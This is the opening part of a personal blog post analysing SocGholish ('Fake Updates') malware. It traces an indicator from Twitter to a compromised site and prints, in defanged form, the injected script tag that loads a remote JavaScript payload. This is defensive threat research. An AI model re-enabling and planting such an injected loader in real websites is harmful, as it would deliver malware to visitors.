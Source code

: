 ```yaml
---
title: "Fake Updates - Part 1"
date: 2023-01-12T15:57:49-06:00
draft: false 
comments: false
images: 
---
```


---

For my first attempt at malware analysis blogging, I wanted to go with something familiar. I've seen the "Fake Updates" or SocGholish breed of malware both at work and during personal research, so I decided to begin here. 

One can find many useful, and far better, analysis on this malware from many fantastic researchers simply with light Googling. My intent is not to break new ground, but rather to get the hang of transcribing my thought process and methods in a succinct and understandable way -- once I've accomplished this, then I will begin to attempt to poke around in the unknown.

---


### Starting Out

For those who may not be aware, social media is a great place for finding IOCs, or indicators of compromise. Simply head to the Twitter Explore page and search a particular malware family. Note: as of today it appears Twitter no longer allows non-user accounts to sort the Explore results by "recent", which makes things a bit more difficult. _Edit_: I spoke too soon, the feature appears to be back as of 1/26/23.

Nevertheless, using Twitter I searched for "SocGholish" and found a tweet published a few days ago from @RootkitHalo 

https://twitter.com/RootkitHalo/status/1610647981266698242?s=20&t=btWSUQgaXQXCe6G8YaEygw. 

{{< image src="images/tweet.png" alt="twitter" position="center" >}}


It appears sapboost[.]com may be worth checking out. I dropped it into [URLScan.io](URLScan.io) to take an initial look.
Scrolling through the DOM section, I noticed a suspicious script referencing a domain with a long path. Based on previous investigations, this looks similar to injected scripts I have seen on other compromised sites, all of which led to a SocGholish payload.


{{< image src="images/urlscan.png" alt="urlscan" position="center" >}}
```js
 <script async="" src="hxxps://taxes[.]rpacx[.]com/Db3LT4AuAlbSGri9pNj490sUTJorxDreSplsr42KB4ISAegLswAiDwMbb2EvZCqw" type="d2be214ae0a8a44b9a5aa916-text/javascript"> 
```

Note: Based on past experience, URLScan.io will not always capture these injected JavaScript snippets on compromised sites. In some cases, there appears to be some logic in place which looks for a referrer, and if one is not found, the JavaScript will not be written to the page. I am not certain, but I believe in some cases Google Tags may be repurposed for this sort of activity. If you ever run into this issue, a simple cURL command should suffice.
